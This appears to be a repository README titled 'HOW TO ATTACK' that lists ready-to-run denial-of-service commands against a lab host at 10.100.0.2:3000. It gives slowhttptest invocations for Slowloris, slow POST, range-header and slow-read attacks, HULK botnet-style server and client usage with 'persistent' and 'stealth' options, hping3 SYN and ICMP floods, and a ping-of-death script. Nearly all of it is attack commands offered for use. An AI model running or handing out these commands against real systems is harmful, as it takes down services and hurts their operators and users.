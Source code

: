 # HOW TO ATTACK

## Slowhttptest
```
slowhttptest -H -g -c 5260 -i 10 -r 30 -t GET -u http://10.100.0.2:3000/ -x 24 -p 3
```

    -H: Enable slow headers attack
    -g: Generate headers randomly
    -c 5260: Number of connections to create
    -i 10: Interval between follow-up data in seconds
    -r 30: Number of requests per connection
    -t GET: HTTP method to use (GET in this case)
    -u http://10.100.0.2:3000/: Target URL to attack
    -x 24: Number of simultaneous connections
    -p 3: Number of child processes to fork
### SLOWLORIS
```
slowhttptest -c 1000 -H -g -i 10 -r 200 -t GET -u http://10.100.0.2:3000/ -x 24 -p 3


```
### SLOW HTTP POST
```
slowhttptest -c 3000 -B -g -i 110 -r 200 -s 8192 -t POST -u http://10.100.0.2:3000/ -x 10 -p 3

```
### RANGE HEADER
```
slowhttptest -R -u http://10.100.0.2:3000/ -t HEAD -c 1000 -a 10 -b 3000 -r 500
```
### SLOW READ
```
slowhttptest -c 8000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u http://10.100.0.2:3000/ -p 3
```
## HULKv3
```
python3 HULK-v3/hulk_launcher.py server http://10.100.0.2:3000
```
```
python3 HULK-v3/hulk_launcher.py client -n 10
```

### Server :computer:
```
usage: hulk_launcher.py server [-h] [-p PORT] [-m MAX_MISSILES] [--persistent] [--gui] target

The Hulk Server Launcher

positional arguments:
target                the target url.

options:
-h, --help            show this help message
-p PORT, --port PORT  the Port to bind the server to.
-m MAX_MISSILES, --max_missiles MAX_MISSILES the maximum number of missiles to connect to.
--persistent          keep attacking even after target goes down.
--gui                 run on the GUI mode.
```

### Client :space_invader:
```
usage: hulk_launcher.py client [-h] [-r ROOT_IP] [-p ROOT_PORT] [-n NUM_PROCESSES] [-s]

The Hulk Bot Launcher

options:
-h, --help            show this help message
-r ROOT_IP, --root_ip ROOT_IP                        IPv4 Address where Hulk Server is running.
-p ROOT_PORT, --root_port ROOT_PORT                  Port where Hulk Server is running.
-n NUM_PROCESSES, --num_processes NUM_PROCESSES      Number of Processes to launch.
-s, --stealth         Stealth mode.
```
## HULKBarry Shteiman
```
python3 hulkBasic/1hulk.py http://10.100.0.2:3000
```

## hping3
### SYN flood
```
hping3 -S -p 3000 --flood 10.100.0.2
```
### ICMP flood
```
hping3 -p 3000 --icmp --flood 10.100.0.2 

```

### Ping od Death
```
python3 pingOfDeath/pingOfDeath.py

```
